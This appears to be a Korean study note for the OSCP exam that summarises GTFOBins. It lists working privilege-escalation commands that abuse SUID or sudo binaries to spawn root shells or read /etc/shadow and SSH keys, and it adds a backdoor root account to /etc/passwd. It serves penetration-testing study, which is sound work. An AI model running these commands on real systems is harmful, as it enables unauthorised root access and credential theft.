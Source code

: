 # GTFOBins란?

**GTFOBins**는 "Get The F\*\*\* Out Binaries"의 줄임말로,
**리눅스 시스템에서 SUID(특권 있는 권한)가 설정된 실행 파일들을 악용해 권한 상승(Privilege Escalation)을 하는 방법들을 모아놓은 온라인 데이터베이스입니다.**

- 쉽게 말해,
  시스템에 있는 특정 프로그램을 "약점"으로 활용해
  일반 사용자 권한에서 **root 권한을 얻는 방법**을 모아놓은 모음집이에요.

## look - 파일 내용 읽기 권한 상승

```bash
# look 명령: 파일 내용 읽기 가능
# 특정 문자열로 시작하는 줄을 검색하는 명령어지만, 권한 상승에 활용 가능

# 1. 일반 파일 읽기 (권한 밖 파일 내용 확인)
LFILE=/etc/shadow   # 읽고 싶은 파일 지정
look '' "$LFILE"    # 빈 문자열로 검색 → 전체 내용 표시

# 2. SUID 바이너리로 권한 상승
# - SUID 설정된 look 명령어 이용
sudo install -m =xs $(which look) .  # 현재 디렉토리에 SUID 설정된 look 복제

# SUID 바이너리로 권한 있는 파일 읽기
LFILE=/etc/shadow
./look '' "$LFILE"

# 3. sudo 권한으로 실행
# - sudoers에 look 명령어 실행 권한 있는 경우
LFILE=/etc/shadow
sudo look '' "$LFILE"

# 핵심: look 명령은 파일 내용을 직접 읽기 때문에 권한 상승 가능
# 권한 상승에 유용 - 내부적으로 권한을 drop하지 않음
# /etc/shadow, /root/.ssh/id_rsa 등 중요 파일 내용 읽기 가능
```

# OSCP 출현 빈도 높은 GTFOBins 모음

## 1. find - 매우 자주 등장

```bash
# SUID로 쉘 획득
find . -exec /bin/sh -p \; -quit

# sudo로 쉘 획득
sudo find . -exec /bin/sh \; -quit

# 능력자 검증: find에서 sh 막힐 경우 대안
sudo find . -exec /bin/bash \; -quit
```

## 2. vim/vi - 매우 자주 등장

```bash
# sudo로 쉘 획득
sudo vim -c ':!/bin/bash'

# SUID로 쉘 획득
./vim -c ':!/bin/sh -p'

# 다른 방법
sudo vi
:set shell=/bin/bash
:shell
```

## 3. less/more - 자주 등장

```bash
# less로 쉘 획득
sudo less /etc/profile
!/bin/bash

# more로 쉘 획득
sudo more /etc/profile
!/bin/bash

# SUID 설정 파일 읽기
LFILE=/etc/shadow
less $LFILE
```

## 4. python/python3 - 매우 자주 등장

```bash
# sudo로 쉘 획득
sudo python -c 'import os; os.system("/bin/bash")'
sudo python3 -c 'import os; os.system("/bin/bash")'

# SUID로 쉘 획득
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

## 5. perl - 종종 등장

```bash
# sudo로 쉘 획득
sudo perl -e 'exec "/bin/bash"'

# SUID로 쉘 획득
./perl -e 'exec "/bin/sh", "-p"'
```

## 6. nmap (오래된 버전) - 가끔 등장

```bash
# 옛날 버전만 해당됨 (5.2x 이하)
# 대화형 모드로 쉘 획득
sudo nmap --interactive
nmap> !sh
```

## 7. awk - 비교적 자주 등장

```bash
# sudo로 쉘 획득
sudo awk 'BEGIN {system("/bin/bash")}'

# SUID로 쉘 획득
./awk 'BEGIN {system("/bin/sh -p")}'
```

## 8. nano/pico - 자주 등장

```bash
# sudo로 에디터 열고 쉘 획득
sudo nano
^R^X (Ctrl+R 누른 후 Ctrl+X)
reset; sh 1>&0 2>&0
```

## 9. cp - 파일 복사로 권한 상승

```bash
# /etc/passwd 백업 후 수정하여 루트 사용자 추가
sudo cp /etc/passwd /tmp/passwd.backup
echo 'hacker:$1$xyz$Qqen0jaFJvN.qWG9jpHdW/:0:0:root:/root:/bin/bash' >> /tmp/passwd.new
sudo cp /tmp/passwd.new /etc/passwd
su hacker  # 암호: hacker

# SUID/SUDO 복사로 권한 있는 바이너리 생성
sudo cp /bin/bash /tmp/rootbash
sudo chmod +s /tmp/rootbash
/tmp/rootbash -p
```

## 10. tar - 자주 출현

```bash
# sudo 권한으로 쉘 실행
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash

# SUID 설정된 경우
./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh -p
```

## 11. 기타 자주 발견 바이너리

### 11-1. sed

```bash
# sudo로 쉘 획득
sudo sed -n '1e /bin/bash' /etc/hosts
```

### 11-2. man

```bash
# sudo로 man 페이지 열고 쉘 획득
sudo man ls
!/bin/bash
```

### 11-3. 언어 인터프리터(php, ruby 등)

```bash
# PHP로 쉘 획득
sudo php -r "system('/bin/bash');"

# Ruby로 쉘 획득
sudo ruby -e 'exec "/bin/bash"'
```

### 11-4. 텍스트 편집기(emacs, gedit 등)

```bash
# 텍스트 편집기 권한으로 쉘 실행
sudo emacs -Q -nw --eval '(term "/bin/bash")'
```

### 11-5. env - 종종 등장

```bash
# sudo 권한으로 쉘 실행
sudo env /bin/bash
```

## OSCP 실전 팁

1. 먼저 SUID 바이너리 찾기:

```bash
find / -perm -4000 -type f 2>/dev/null
```

2. sudo 권한 확인:

```bash
sudo -l
```

3. 의심스러운 바이너리 발견 시 GTFOBins 확인:

   - https://gtfobins.github.io/ 참고 (시험 환경에서는 접근 불가)
   - 이 파일에 없는 바이너리는 `strings`, `strace` 등으로 분석

4. 최신 GTFOBins 내용은 자주 변경되므로 사전 학습 필요
